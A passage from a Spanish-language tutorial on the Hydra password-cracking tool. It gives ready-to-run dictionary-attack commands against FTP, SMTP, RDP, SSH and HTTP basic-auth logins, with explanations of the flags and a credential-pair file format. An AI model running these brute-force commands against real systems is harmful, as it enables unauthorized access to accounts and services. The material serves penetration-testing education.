 > [!example] Explicación
> Ataca un formulario web POST en "/login.php" reemplazando ^USER^ con "admin" y ^PASS^ con cada palabra del diccionario. El mensaje "Login failed" es el texto que indica un intento fallido.

### Ejemplo 3: Ataque a múltiples usuarios FTP

```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.100 -V
```

> [!example] Explicación
> Realiza un ataque de diccionario contra el servicio FTP usando listas de usuarios y contraseñas. La opción `-V` (verboso) muestra cada intento en tiempo real.

### Ejemplo 4: Ataque contra servidor SMTP

```bash
hydra -l admin@dominio.com -P wordlist.txt smtp://mail.servidor.com -v
```

> [!example] Explicación
> Intenta encontrar la contraseña del correo admin@dominio.com probando cada entrada del diccionario wordlist.txt contra el servidor SMTP especificado.

### Ejemplo 5: Ataque a RDP con límite de tiempo

```bash
hydra -l administrador -P passwords.txt rdp://192.168.1.100 -t 1 -W 30
```

> [!example] Explicación
> Ataque al servicio RDP con un solo hilo (`-t 1`) y un tiempo de espera máximo de 30 segundos (`-W 30`), lo que es útil para servicios que pueden bloquearse con muchas conexiones.

---

## Técnicas Avanzadas

### Combinación de usuarios y contraseñas en un archivo

```bash
hydra -C combinaciones.txt ssh://192.168.1.100
```

> [!note] Formato del archivo
> El archivo debe contener pares usuario:contraseña por línea:
> ```
> usuario1:contraseña1
> usuario2:contraseña2
> ```

### Uso de módulos específicos de HTTP

#### Autenticación Básica HTTP
```bash
hydra -l admin -P passlist.txt http-get://192.168.1.100/admin/
```

